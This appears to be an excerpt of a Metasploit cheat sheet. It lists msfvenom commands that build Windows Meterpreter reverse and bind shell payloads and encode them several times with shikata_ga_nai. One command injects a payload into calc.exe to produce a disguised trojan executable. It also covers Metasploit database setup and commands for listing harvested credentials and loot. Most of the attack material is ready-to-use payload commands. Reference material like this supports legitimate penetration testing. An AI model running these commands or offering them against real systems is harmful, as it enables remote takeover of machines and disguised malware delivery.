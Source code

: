 Generating a windows/meterpreter/reverse_tcp:
```
./msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP -f exe
```

Generate a payload that avoids certain bad characters:
```
./msfvenom -p windows/meterpreter/bind_tcp -b '\x00'
```

Generate a payload with a specific encoder, and then encode 3 times:
```
./msfvenom -p windows/meterpreter/bind_tcp -e x86/shikata_ga_nai -i 3
```

Inject a payload to calc.exe, and save it as new.exe
```
./msfvenom -p windows/meterpreter/bind_tcp -x calc.exe -k -f exe > new.exe
```
------------------------------------------------------------------------------------------------------

### Database

```
root@kali:~### service postgresql start          Start up the postgresql server before using the database.
root@kali:~### service metasploit start          Create a msf3 datauser user and database called msf3.
root@kali:~### msfconsole

msf > help database

```
#### Database Backend Commands
=========================
```

    Command           Description
    -------           -----------
    creds             List all credentials in the database
    db_connect        Connect to an existing database
    db_disconnect     Disconnect from the current database instance
    db_export         Export a file containing the contents of the database
    db_import         Import a scan result file (filetype will be auto-detected)
    db_nmap           Executes nmap and records the output automatically
    db_rebuild_cache  Rebuilds the database-stored module cache
    db_status         Show the current database status
    hosts             List all hosts in the database
    loot              List all loot in the database
    notes             List all notes in the database
    services          List all services in the database
    vulns             List all vulnerabilities in the database
    workspace         Switch between database workspaces

```
